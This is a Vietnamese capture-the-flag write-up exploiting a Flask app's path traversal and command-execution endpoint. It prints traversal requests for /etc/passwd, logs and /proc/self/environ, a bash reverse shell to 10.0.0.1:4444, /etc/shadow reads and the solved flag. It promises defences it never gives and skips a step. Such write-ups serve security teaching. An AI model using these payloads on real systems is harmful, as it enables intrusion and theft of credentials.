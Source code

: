 <h3>Write-up Chuyên Sâu: Khai Thác Lỗ Hổng Hệ Thống Tập Tin Trên Linux
Giới Thiệu
Trong bài viết này, chúng ta sẽ đi sâu vào phân tích một lỗ hổng bảo mật nghiêm trọng trong ứng dụng web sử dụng Flask trên nền tảng Linux. Lỗ hổng kết hợp giữa khả năng đọc file tùy ý (Path Traversal) và thực thi lệnh từ xa (RCE) thông qua việc lộ API key trong biến môi trường. Bài viết sẽ trình bày chi tiết từng bước khai thác, kèm theo phân tích kỹ thuật sâu và các biện pháp phòng chống hiệu quả.</h3>h3>

Phân Tích Ứng Dụng
1. Kiến Trúc Ứng Dụng
Ứng dụng được xây dựng bằng Python Flask với ba endpoint chính:

```/```: Trang chủ đơn giản

```/file```: Cho phép đọc nội dung file từ thư mục ./files/

```/admin```: Cho phép thực thi lệnh hệ thống khi cung cấp đúng API key

2. Mã Nguồn Quan Trọng
```
@app.route('/file', methods=['GET'])
def file():
    path = request.args.get('path', None)
    if path:
        data = open('./files/' + path).read()  # Lỗ hổng Path Traversal
        return data
    return 'Error !'

@app.route('/admin', methods=['GET'])
@key_required
def admin():
    cmd = request.args.get('cmd', None)
    if cmd:
        result = subprocess.getoutput(cmd)  # Lỗ hổng RCE
        return result
    return 'Error !'
```
Chi Tiết Lỗ Hổng
1. Path Traversal (CWE-22)
Nguyên nhân: Không kiểm tra input người dùng khi ghép vào đường dẫn file

Tác động: Đọc bất kỳ file nào hệ thống có quyền truy cập

Ví dụ khai thác:
```
GET /file?path=../../../../etc/passwd
```
2. RCE qua Biến Môi Trường
Cơ chế: API key được lưu trong biến môi trường và có thể bị lộ

Rủi ro: Kẻ tấn công có thể thực thi lệnh tùy ý khi có API key

Ví dụ:
```
GET /admin?API_KEY=xxx&cmd=id
```
Quy Trình Khai Thác Chi Tiết
Bước 1: Xác Định Lỗ Hổng Path Traversal
Thử đọc file hệ thống cơ bản:
```
GET /file?path=../../../../etc/passwd
```
Phân tích kết quả:

Thành công: Xác nhận lỗ hổng tồn tại

Thất bại: Có thể do filter hoặc sandbox

Bước 2: Tìm Kiếm Thông Tin Nhạy Cảm
Các vị trí quan trọng:

File log ứng dụng:
```
GET /file?path=../../../../var/log/app.log
```
File cấu hình nginx:
```
GET /file?path=../../../../etc/nginx/nginx.conf
```
Biến môi trường tiến trình:
```
GET /file?path=../../../../proc/self/environ
```
Bước 3: Khai Thác Lộ API Key
Phân tích file log nginx tìm request chứa API key:
```
GET /file?path=../../../../var/log/nginx/access.log
```
Nâng cấp quyền hạn:
```
GET /admin?API_KEY=SECRET_KEY&cmd=sudo+-l
```
Bước 5: Chiếm Quyền Hệ Thống
Tạo reverse shell:
```
GET /admin?API_KEY=SECRET_KEY&cmd=bash+-c+"bash+-i+>%26+/dev/tcp/10.0.0.1/4444+0>%261"
```
Khai thác sâu hơn:

Đọc file shadow:
```
GET /admin?API_KEY=SECRET_KEY&cmd=cat+/etc/shadow
```
Tìm kiếm file flag:
```
GET /admin?API_KEY=SECRET_KEY&cmd=find+/+-name+"*flag*"
```
Phân Tích Nâng Cao
1. Kỹ Thuật Bypass Filter
Sử dụng encoding:
```
GET /file?path=%2e%2e%2f%2e%2e%2fetc%2fpasswd
```
Đọc trực tiếp:
```
GET /file?path=../../../../proc/self/environ
```
Kết Luận
Qua bài lab này, chúng ta đã học được:

Cách khai thác lỗ hổng Path Traversal để leo thang đặc quyền

Kỹ thuật tìm kiếm thông tin nhạy cảm trong hệ thống Linux

Phương pháp phòng chống các lỗ hổng tương tự

Flag thu được: DH{2a4ff4e94d09793c662d1bd7ec5d497d7b190c6f}

Hãy luôn nhớ: "Security is a process, not a product" - Bruce Schneier. Việc hiểu rõ các lỗ hổng và cách phòng chống sẽ giúp chúng ta xây dựng hệ thống an toàn hơn.


